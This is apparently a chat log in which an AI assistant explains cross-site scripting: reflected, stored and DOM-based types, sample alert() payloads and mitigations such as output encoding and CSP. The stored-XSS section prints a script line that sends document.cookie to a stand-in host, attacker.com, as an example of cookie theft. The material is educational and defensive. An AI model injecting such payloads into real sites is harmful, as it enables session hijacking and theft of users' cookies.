 

# Introduction to Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a common web security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These attacks occur when an application includes untrusted data without proper validation or escaping.

## Key Concepts

1. **How XSS Works**:
   - Attacker injects malicious JavaScript code into a vulnerable website
   - Victim's browser executes the code in the context of the trusted site
   - Attacker can steal cookies, session tokens, or perform actions on behalf of the user

2. **Types of XSS**:
   - **Stored/Persistent XSS**: Malicious script is permanently stored on the target server
   - **Reflected XSS**: Malicious script is reflected off a web server in response
   - **DOM-based XSS**: Vulnerability exists in client-side code rather than server-side code

3. **Common Attack Vectors**:
   ```html
   <script>alert('XSS')</script>
   ```
   ```html
   <img src="x" onerror="alert('XSS')">
   ```
   ```javascript
   javascript:alert('XSS')
   ```

## Prevention Techniques

- Input validation and output encoding
- Implementing Content Security Policy (CSP)
- Using secure frameworks that auto-escape content
- Setting HttpOnly flag on cookies

Understanding XSS is fundamental for both developers (to prevent vulnerabilities) and security professionals (to test for them).

Further Explain the types of XSS extensively

 # **Introduction to Cross-Site Scripting (XSS) - Types Explained Extensively**

Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts execute in the victim's browser, potentially stealing sensitive data, hijacking sessions, or defacing websites.

XSS attacks are categorized into three main types:

1. **Reflected XSS**  
2. **Stored XSS**  
3. **DOM-based XSS**  

Each type has distinct characteristics and exploitation methods.

---

## **1. Reflected XSS (Non-Persistent)**
Reflected XSS occurs when malicious input from a user is immediately returned by the web application in an unsafe manner, typically in an error message, search result, or URL parameter.

### **How It Works:**
- The attacker crafts a malicious URL containing JavaScript.
- The victim clicks the link (e.g., via phishing).
- The server reflects the script back in the response.
- The victim's browser executes the script.

### **Example:**
```http
https://example.com/search?query=<script>alert('XSS')</script>
```
If the website displays `query` without sanitization, the script runs.

### **Impact:**
- Session hijacking via `document.cookie`.
- Redirecting users to malicious sites (`window.location`).
- Phishing attacks by modifying page content.

### **Mitigation:**
- Input validation & output encoding.
- Using Content Security Policy (CSP).
- Escaping user-supplied data before rendering.

---

## **2. Stored XSS (Persistent)**
Stored XSS occurs when malicious scripts are permanently stored on a target server (e.g., in a database, comment section, or forum post) and later executed when other users access the infected page.

### **How It Works:**
- Attacker submits malicious input stored on the server.
- Victim requests a page containing this stored data.
- Server serves the malicious script to the victim’s browser.
- Script executes in their context.

### **Example:**
A blog comment with:
```html
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```
When another user loads the page, their cookies are sent to the attacker.

### **Impact:**
- Long-term compromise of user accounts.
- Spread of malware

Continue from Stored XSS(persistent) Impact point